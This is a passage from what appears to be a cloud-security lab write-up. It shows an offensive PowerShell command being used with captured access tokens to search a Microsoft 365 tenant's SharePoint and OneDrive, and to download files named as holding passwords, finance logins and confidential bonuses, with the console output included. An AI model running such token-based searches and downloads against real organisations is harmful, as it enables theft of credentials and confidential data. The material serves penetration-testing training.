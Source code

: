 ```powershell
[*] Do you want to download any more files? (Yes/No/All)
No
[*] Quitting...
```

As shown above we have two file retrieved the **`passwords.xlsx`** file and the **`Finance Logins.docx`** both hosted on the SharePoint site. We also downloaded the files by selecting **`All`** when prompted for a response.


Checking each of this files we have hardcoded embedded credentials in which these logins can provide access to sensitive systems and data, and may also allow server access through abusable functionalities like file uploads or application vulnerabilities.

***`Finance Logins.docx ::`***

![](https://i.imgur.com/LO9VDmz.png)


***`passwords.xlsx ::`***

![](https://i.imgur.com/glYJsKS.png)


We can also search for other sensitive files using the search term 'bonus'.


```powershell
PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'bonus'

[*] Using the provided access tokens.
[*] Found 1 matches for search term bonus
Result [0]
File Name: Bonuses - Confidential.xlsx
Location: https://iancloudpwned-my.sharepoint.com/personal/sam_olsson_megabigtech_com/Documents/Bonuses - Confidential.xlsx
Created Date: 11/05/2023 21:50:58
Last Modified Date: 11/05/2023 21:50:58
Size: 17.50 KB
File Preview: 
DriveID & Item ID: b!qFVO5o9Td0OqTdtkAzLcOeLC9xqzoSxNgtanvmZOWlEk66ey-hWeTL_LW84ry4xf\:01LMH7HCXMTDF5WDES3ZF3IDWGRV2P4OXB
================================================================================
[*] Do you want to download any of these files? (Yes/No/All)
Yes
[*] Enter the result number(s) of the file(s) that you want to download. Ex. "0,10,24"
0
[*] Now downloading Bonuses - Confidential.xlsx
[*] Do you want to download any more files? (Yes/No/All)                                                                
No                                                                                                                      
[*] Quitting...
```
